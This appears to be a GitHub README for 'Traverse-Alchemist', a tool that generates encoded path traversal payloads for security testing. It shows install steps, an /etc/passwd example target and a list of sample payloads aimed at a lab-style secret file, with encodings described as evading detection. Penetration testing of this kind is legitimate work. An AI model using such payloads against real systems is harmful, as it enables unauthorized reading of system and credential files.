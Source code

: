# Traverse-Alchemist
# 🌌 Path Traversal Generator 🚀

Welcome to the **Path Traversal Generator**! This program is designed to help you generate various path traversal payloads. A lot of encodings and workarounds.

## 🌈 Features

- **Dynamic Payload Generation**: Create a variety of payloads to test for path traversal vulnerabilities.
- **Customizable File Paths**: Input any file path to generate tailored payloads.
- **Colorful Output**: Enjoy a vibrant terminal experience with colored outputs!
- **Multiple Encoding**: Generate payloads with various encoding techniques to evade detection.

## 🛠️ Installation and use:

```bash
git clone https://github.com/raikoho/Traverse-Alchemist.git
cd Traverse-Alchemist
python traversal.py
```
You will be prompted to enter the target file path. For example:
```
Enter the target file path (e.g., /etc/passwd):
```
After entering your desired path, the program will generate a colorful wordlist of potential payloads and save it to a text file.

## 📄 Example Generated Payloads

```
../../\..\/home/carlos/secret
../../\..\\/\h\o\m\e\/\c\a\r\l\o\s\/\s\e\c\r\e\t
..%5C\/%2Fhome%2Fcarlos%2Fsecret
..%5C\//home/carlos/secret
data/home/carlos/secret
hidden%2Fhome%2Fcarlos%2Fsecret
..%5C\/home/carlos/secret
....//....//....//secret
....//....//....//secret%00.txt
```

## 📜 Contributing

Contributions are welcome! If you have ideas for new features, improvements, or fixes, please open an issue or submit a pull request. Let's make it even better!

